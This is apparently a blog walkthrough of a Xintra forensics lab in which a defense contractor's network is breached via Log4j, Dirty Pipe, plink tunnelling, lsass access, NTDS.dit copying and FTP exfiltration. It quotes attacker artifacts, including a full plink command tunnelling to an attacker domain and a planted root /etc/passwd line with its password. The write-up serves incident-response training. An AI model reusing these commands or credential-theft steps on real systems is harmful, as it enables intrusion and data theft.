# Xintra's NavalTech Systems Lab Walkthrough

Writing up a walkthrough to figuring out the incident at XINTRA's NavalTech Systems Lab.   This lab is an emulation of the tactics the DPRK uses in its campaign: in this scenario, the victim is a critical defense contractor. 

## Section 1: Understanding the network
It's a somewhat clear network, but choosing to look into each of the zones individually and see what/where things might possibly exist.



### 1a. The DMZ
The first zone when entering from the spooky internet - the DMZ. 



In here, we can spot the Tomcat Webserver and the Squid Proxy server. There is a strong likelihood, that this Squid Proxy server, NTS-PRX01 (10.216.1.17) can be assumed to have that purpose of masking any outbound traffic that is created by internal users. 

Taking a closer look at the Tomcat Webserver, NTS-WEB01 (10.216.1.8), there is an actual indication of the Webserver that is receiving traffic from the Internet on Port 8080. Something to take note here: Port 8080 is used. Tomcat uses this as its application-server port, and avoids requiring the application server to bind directly to Port 80. Ultimately, any public request is received and forwarded internally to Tomcat on Port 8080. 

### 1b. The Workstations
Next, the workstations at this office. 



There are two workstations, each connected into the NTS Domain: NTS-WKS01 (10.216.3.11) has an ADID of ewarren tagged to it, and NTS-WKS02 (10.216.3.12) with jcallahan as a user. 

### 1c. The Servers
Following that, the servers belonging in the NTS ecosystem. 



In this, there's the domain controller, NTS-DC01 (10.216.2.5), that is responsible for the workstations to authenticate with it. The file server, NTS-FS01 (10.216.2.14), is probably to assist with shared file storage and backups for employees to store and access any kind of resources. 

### 1d. The Backend 
Lastly, the backend components in this part of the network. 



There are some interesting details in here, for each server, so let's delve a little more deeply:
1. The NTS-JUMP (10.216.0.6) Server - it is written that it is an Ubuntu Host. It should be serving typical Jump Server purposes - to act as a controlled entry point into the backend section of the network. 

2. The NTS-ELK (10.216.0.10) Server - Ideally speaking, this server would be collecting all the logs of all the devices and zones discussed thus far, and act as a central logger for the NTS ecosystem. 

## Section 2: Lab Walkthrough

### Section 2a: Boarding Party Detected
As the associated CTI report on such a cyber attack spoke of widespread exploitation of web servers, a potential place where TA activity could be seen would be within NTS-WEB01. When inspecting into the triage image of the server, the logs were useful to inspect. 

Amongst the files, the logs from 24th Sept 2025 had been the largest, and showed a lot of activity. 



Within that, there was activity from an external IP address, 135.220.72.163, from 19:22:25 to 19:26:11 on the same day. 



Within that duration of the logs, there were some successful connections into the Tomcat server. Those can be seen in the logs with a status code 200. One thing to find if there's any associated PID with this tomcat service. Interestingly, that can be found in /opt/tomcat/temp, with a value of 744. 

That parent directory, /opt/, sits inside the Linux server, and it acts as a directory for ensuring [the installation of unbundled packages](https://unix.stackexchange.com/questions/11544/what-is-the-difference-between-opt-and-usr-local). The tomcat file here makes sense, and the [temp folder](https://stackoverflow.com/questions/8853387/clarifications-on-tomcats-temp-and-work-directories) stores runtime temporary files. 



At this point, we know that this Tomcat service runs on a process with ID 744. At this point, we can treat this as the PID the tomcat service is expected to have, and crosscheck against other sources along the lab. To find more details about the same process, and taking note it's a web server we're working on, there would be some part of the server where live response data can be captured. That brings us out of the Triage Image of the server, and in the Processed Evidence portion. 



Inside the process/proc/ directory, it is visible that PID 744 corresponds with the process name, "java". Now, let's see if this same process is used to connect back out to the external IP address, 135.220.72.163. 



In that same process directory, the file "lsof_-nPli" indicates that three distinct ports were used: 1389, 9001, 51798. Observing this a little more closely, we can note that the TCP protocol is made use of in the connections from the NTS WebServer, out to the external IP address. That is a strong hint that the webserver had done a complete TCP handshake with this external IP address, when connecting to its port 1389. It is in this connection that potential data transfer between the two could have occured. 

1389 is used for Lightweight Directory Access Protocol, _but as an alternate port_. This [Oracle document](https://docs.oracle.com/cd/E22289_01/html/821-1273/running-the-server-as-a-nonroot-user.html?utm_source=chatgpt.com) specifies that standard LDAP ports are 389, 636. So there's a chance that this external IP address could be an improper or rogue LDAP server. 

Finally, there is an interest to know which jar file has the JndiManager.class. For this, we need to revert back to the Triage Image of NTS-WEB01. After a lot of hunting, it turns out it was under the "log4j-core-2.14.1" .jar file. 



Given what we've seen, in terms of the types of connections, and the vulnerable library's name, let's try and make sense of what this can possibly mean:
NTS-WEB01, as a webserver, with Java applications running in it. Based on the class found, it appears to match having a vulnerable version of the library, Log4j and likely rendering the application hosted on the server as vulnerable. 

In order to exploit the vulnerability, and seeing that an outbound connection was done to this rogue LDAP server, then there's a good chance that the rogue server started a TCP handshake, to NTS-WEB01, and its request might've had a malicious string. This malicious string would've then been parsed by the existing library inside the application, and made NTS-WEB01 send out this LDAP request.

And that concludes the first portion of the lab. 

### Section 2b: Deck to Bridge

Now, proceeding to the next portion, on what new files and folders were introduced by the Threat Actor. Within the same NTS-WEB01, at the files captured by the live response, there is a file called hidden directories, and amongst the choices seen in this file, it's the directory at `/dev/shm/...` that is of interest. 



Corresponding to that, when looking at that folder in its Processed Evidence, a file called apacheupdate-8.04 is observed. 



To inspect it quickly, decided to strings command on it, and piped out the results, that are 8 characters or longer. 



Taking a look inside, quite a number of details can be found! 



The first interesting set of strings found that isn't fully gibberish, speaks of a "Dirty Pipe" tool. When looking up threat intel resources of how it works, and its documentation as CVE-2022-0847, it allows an unprivileged user to overwrite data in read-only files. As per the logs observed, the rough steps included getting a pipe of data ready, creating a back up of the data and the script essentially targetted /etc/passwd. 

What's interesting is the string "$6$9WETWbCBT..." - its whole value is `:$6$9WETWbCBTQ8pxg4I$odZAx8iIlayCnFdUwDM5dHVfsXXZo1RHRp2a4uQzcPDkRiTJYLA4loZESihn4ASGhWKN9.RWPT.CZJdyfTej4/:0:0:root:/root:/bin/sh`. 
Let's inspect this component by component. 

| Component | Explainer |
| :---     | :----   |
| :$6$ | This value means that the hashing algorithm, SHA-512 was used  |
| 9WETWbCBTQ8pxg4I | The added salt |
| odZAx8iIlayCnFdUwDM5dHVfsXXZo1RHRp2a4uQzcPDkRiTJYLA4loZESihn4ASGhWKN9.RWPT.CZJdyfTej4/ | Hash value of the password |
| :0:0:root: | User ID, Group ID, and the user's real name |
| /root:/bin/sh | The user's home directory, and login shell |

Seeing this line was followed by a log below, that says "You can connect as root with password el3ph@nt!", this is a strong indicator that the "root" user account accepts 'el3ph@nt!' as the valid password. The next thing to do, is to confirm if a backup file was indeed made, as the strings results indicated a /tmp/%s.bak that was created. The next thing to look up is if a .bak file was made some time inside the tmp folder. 

When inspecting the bodyfile of the Web Server, a passwd.bak does exist inside the /tmp/ folder. 



### Section 2c: Cross Current Drift
At this stage, we can tell that the Web Server, NTS-WEB01, had quite a fair bit of activity take place. Let's now see if anything else connected with this webserver within the NTS network. 



It becomes clear that some RDP connections were attempted between WKS01 and WEB01. These had occurred throughout a few days, and the first successful attempt happened on Sept 25, 2025, 19:31:28. The username for that had been the ADID one tied to NTS-WKS01, `ewarren`. 

The lab shares that a tool had also been downloaded. One fast way to crosscheck what downloads had occurred, was to inspect the download history from the user data. As we know the username had been 'ewarren', the next is to see the relevant downloads. 



From the observed table, two potential downloads of interest were plink.exe and winrar-x64-713.exe. To see which of these were of more relevance to the incident, a quick search on ELK showed that plink.exe, might be of greater relevance. 

As the lab also mentions that this same file had been renamed into something else, an elegant way to inspect for its next name was to introduce plink.exe's SHA256 value, as a column value, and see what its other name could've been. 



Upon introducing that hash value, we can see that the process command line has pvhost.exe. While there's no explicit log to indicate a file rename, the hash value matches from the 'message' column field. With a high confidence, we can say that the downloaded plink.exe was renamed into pvhost.exe.

Based on the same view of events, we can also see that pvhost.exe was used for a process of some kind, let's take a closer look:



The full command is: `"C:\Windows\Tasks\pvhost.exe"  -batch -ssh -i "C:\Windows\Tasks\navsvc.ppk" navsvc@microsoft-na-synergy-proxy.com -N -T -L 127.0.0.1:9443:127.0.0.1:9443`. 

When breaking the command up, we see the following:
| Parameter | Explainer |
| :---     | :----   |
| "C:\Windows\Tasks\pvhost.exe" | Where the renamed plink.exe is stored |
| -batch | Run pvhost.exe so that it won't prompt the user for any interactive input |
| -ssh  | Run pvhost.exe in SSH protocol |
| -i "C:\Windows\Tasks\navsvc.ppk" | Load the private SSH key, navsvc.ppk, a PuTTY private key format |
| navsvc@microsoft-na-synergy-proxy.com | Connects to the SSH server, microsoft-na-synergy-proxy.com, with a SSH username navsvc |
| -N  | To not execute a shell/command on the remote machine |
| -T  | Don't allocate a remote pseudo-terminal | 
| -L 127.0.0.1:9443:127.0.0.1:9443 | Create a local port forward, from NTS-WK01's port 9443 into the remote SSH server|

Essentially, this command helps start an SSH connection to a microsoft-na-synergy-proxy.com domain, using navsvc's private key, without any obvious shell, and use that connection to tunnel into the remote SSH server's localhost. 

It will be worth checking at this point, what other items are part of this .ppk file. When inspecting its contents, there's a line that mentions 'root@exegol-box'. That shares the account and hostname that generated this SSH key originally. At the same path, another interesting file found is 'synergy-update.ps1'. 



Its contents heavily matches the command line parameters. In addition, the last three lines confirm how it's meant to run without any command windows appearing for the user, pause the script for 10 seconds, and launch something else, called navysys.exe. Keeping this a good to know for later. 

Finally, the lab had hinted that even the Domain Controller, had a binary run on it. When inspecting its Triage Image, something along the Synergy Theme was found as well. It's this SynergyProxy.exe that's probably the one that ran in NTS-DC01. 



### Section 2d: Buoyed by Bytes
Let's now inspect SynergyProxy.exe a little further. 

When feeding it into the ILSpy tool, some of its attributes become known: like the obfuscator that's being used and the respective version number. 



There are other attributes of this binary to find. For this, the SynergyProxy has to be deobfuscated and analysed. This is where we need to pull in malware analysis techniques. Amongst the tools provided, the ones that helped make most headway had been _(As someone with very little experience in MARE)_ de4dot and dnSpy. The first thing to do, was to load the original exe file, into dnSpy, from the `C:\Windows\Tasks\` path of the Domain Controller. 

I'm choosing to walkthrough the small hints that helped me solve this out, and with a few videos that helped along the way. Upon loading the exe, the first item of interest is the `.cctor()` function. 



As we're dealing with a .NET program, this stands for the "Static Constructor". This method, the .cctor(), execuutes before any instance of the class is created, and before any methods in that class are called. Essentially, code here is executed immediately before start-up - something like a hidden start switch. Static constructors like these are useful to hide or set-up their payloads before any main logic, from the Main() function runs. So this is one avenue to look into, and inspect further. 



Looking into our first view of this code, the next step is to introduce a breakpoint within some area of this code. A rule of thumb, had been to try and introduce it onto the first method, or after its first method has been initialized. As a suggestion, choosing to include it at the line the variable "num" is introduced. 



After debugging until that breakpoint, there is a way to get that respective compiled file loaded into memory by the process that's getting debugged, in this case, SynergyProxy.exe. That can be loaded from Debug > Windows > Modules, from the top left hand menu. 
Once it's done until the breakpoint, something like this will be visible, in the modules window:



From here, the compilation can be saved as a "Module", and assign it a different name: we'll need this for the next step. 



Once this compilation has been achieved, the next tool to use on the compilation saved is the de4dot tool. To the tool folder of de4dot, copy over the compilation exe put together from the first step. 



From this [video](https://youtu.be/y_ma9cLFdmY?t=510), this was a suggested command to make use of to produce a possible deobfuscated version. 



When putting this cleaned version back inside dnSpy, we're seeing some new things that hadn't been visible prior, for instance, "Class5". And interestingly enough, Class5, has this method _CopyFromScreen_. Looking about a few of the methods below it, it almost looks like there's a goal to save it, and store it into a Temporary path. 



Alternatively, the same method, can be found when Strings is done on the cleaned version of the compilation exe. But in order to figure out the logic from here, and without knowing the structure of the code, might be tough. 



Lastly, there is another script that the TA had run, in order to find documents of importance. Interestingly, when inspecting the earlier PowerShell script, of synergy-update.ps1 inside NTS-WKS01, another PowerShell script, search.ps1, was found. 



Upon inspecting its content inside, the rough logic includes recursively looking up some paths, for files that might have keywords in their names, or inside their content. A total of 8 terms were used for looking up highly important or sensitive content. 



### Section 2e: Cabin Crawl
Onwards to the next section. The lab speaks of several processes that were accessing the lsass.exe process on NTS-WKS02. Some indications of this behaviour is that events like these have a [Sysmon Event ID of 10](https://attack.mitre.org/datacomponents/DC0035/). More details about it from a Sysmon perspective can be found [here](https://learn.microsoft.com/en-us/windows/security/operating-system-security/sysmon/sysmon-events#:~:text=Process%20Access%20(Event%20ID%2010)%C2%A0). 

With a rough view of event codes, and any extra process columns, we started with an ELK view, like the following: 



With this, opted to narrow out the view a bit more, and see if anything shakes when the event.code is equal to 10. 

With that filter introduced, the number of interesting events is narrowed down to 18. Based on chronological order, a process called "SafeBrowsing.exe" had interacted with lsass.exe, at first glance. 



When expanding the log's message field even more, this is seen as its value: 



Seeing that SafeBrowsing was the source image, lsass.exe as a target image, and the TTP assigned to this is called Process Hollowing, it is fair to say that SafeBrowsing would be the first process that accesses lsass.exe. 

### Section 2f: Captain's Key
The next thing to investigate next is how did SafeBrowsing.exe did end up in the system, and if it did anything else. We know it hollowed out lsass.exe, which means any kind of malicious code from SafeBrowsing.exe had been transfered into a legitimate instance of the lsass.exe process. More ideas of how LSASS can be abused can [be found here](https://medium.com/@thesecguy/defeating-lsass-defenses-a-deep-dive-into-modern-bypass-techniques-6b034e5195c2). 

Let's see if there's any logs of SafeBrowsing that were visible throughout the duration of the incident. When just altering the logs to simply `*SafeBrowsing*`, we can see that it was transfered in with the curl command from the Threat Actor's IP Address, into NTS-WKS01. Plus, looking through at the logs after, they indicate that even a deletion had occurred, and it hadn't stayed for a long time in the machine. 

One interesting thing to find out about SafeBrowsing, is if it had created any files on its own. Adding the filters of `event.category == 'file'`, and `process.name == 'SafeBrowsing.exe'`, some logs indicate that .png files were made by this .exe file. 



When looking up the path where SafeBrowsing.exe sits, one avenue to see its logic is with strings. So far, there is no confirmation that this exe is obfuscated, let's see if strings can reveal anything as a first glance. 



Upon inspection, we can spot a .pdb path - that's useful as it can expose the origin of a file, or even reveal developer usernames. 
In this case, the pdb path is `C:\Users\PT\Desktop\dontscan\WSASS-master\x64\Release\WSASS.pdb `. 



The lab goes on to also indicate that an NTDS.dit file, might have been exposed for copying... sounds like a massive red flag. Essentially, this is a file that acts as the core database that would power Active Directory in any Enterprise system. Looking back in the network diagram of NavalTech Systems, this file would be inside NTS-DC01. 

Filtering out the ELK logs to that hostname, and any logs involving ntds.dit, we can see the following: 



There is evidence that the NTDS.dit file had been copied, using vssadmin.exe. As for the path it has been copied to, it is inside the path `C:\Windows\Tasks\ntds.dit`. 



Intriguingly, that same file is visible inside the triage image of NTS-DC01 as well, at the same \Tasks\ path. 

### Section 2g: Cargo Overboard 
Finally, the exfiltration portion. It's understood that the Threat Actor had gone about looking up files of confidential content within NTS-WKS01, and tried to locate and make a copy of NTDS.dit inside the Tasks folder of NTS-DC01. The next question is, what was collected, and from which device did the TA exfiltrate all the data he was interested in out from? 

Let's revisit each of the Triage images we have for WKS01, where we did see the search script with the eight terms the confidential terms the TA wanted to look up. 



In it, there's a file called tasks.rar and upload.txt - When inspecting the file, this is its content: 



This is a useful hint - we now know that the protocol to upload any collected information from WKS01, was to use the FTP protocol, and the archive of interest from this machine, had been tasks.rar. Let's inspect the same, if something similar can be observed in NTS-WKS02 (for similar files) and inside NTS-DC01 (for that NTDS.dit file). 

Inside NTS-WKS02, the upload script content shares a bit more detail: 



WKS02's version of the upload script is more detailed compared to WKS01's. Essentially, a WinSCP script that automates uploading a file from a Windows Computer to an FTP server - while WinSCP was present in WKS01 too, this confirms that it is the helping binary to exfiltrate data out from the hosts. Here is its properties: 



After transmitting the credentials, the files are meant to be sent in binary mode first, followed by batch mode - plus, if any error occurs during this automated process, WinSCP should abort the upload. The confirm off line disables confirmation prompts. 

But the main takeaway is that, in both these machines, a `tasks.rar` existed, and the upload.txt files in both workstations confirmed they were meant to be uploaded back to the Threat Actor's IP address. The question is then, _what content_ did indeed make these files up, at this point, in each workstation?

When looking up logs with the commands that contain 'tasks.rar' in WKS01 for instance, something about "Propulsion" or "Hull Technology" is mentioned: 



When inspecting the full command, this is its breakdown:

| Command / Flag | Summary |
| :---     | :----   |
| "C:\Program Files\WinRAR\WinRAR.exe" | Run the WinRAR |
| a | Add files into an archive, a later flag says its 'Tasks.rar' |
| -ep1 | Exclude the base directory |
| -scul | Set the character encoding used for the console/file names to UTF-8  |
| -r0 | No Recursive subdirectory processing |
| -iext | Include files based on some extensions |
| -imon1 | Some CPU processing mode |
| -- "Tasks.rar" | The output archive |
| "C:\Windows\Tasks\Hull Technology" | First directory to add  |
| C:\Windows\Tasks Propulsion | Second directory to add |

This is a telling command, but it does not share the whole story. Another pivot point from here, is to deeply inspect all the command line that were executed on this machine, WKS01. 

For that, we can navigate back to the user's "ewarren" Powershell history (as per the ELK logs, this archive activity was tied to his name). There, we can see more telling news, and a consistent summary of all the files and scripts that were discovered so far. There's also some interesting activity of copying done from the file server: 



Essentially, whilst inside WKS01, content from the "\\NTS-FS01\SharedDocs\Submarine Systems" folder were copied into the "C:\Windows\Tasks". When revisiting the 'search.ps1' logic again:

It makes sense that as "submarine" was a search term, the Threat Actor's script found a matching directory of it within NTS-FS01, and copied its contents out into the "C:\Windows\Tasks" folder for tasks.rar archive. Therefore, the soruce directory for the content that the Threat Actor was keen on, was from "NTS-FS01\SharedDocs\Submarine Systems". 

_And that concludes the write-up for Naval Tech Systems Lab of Xintra!_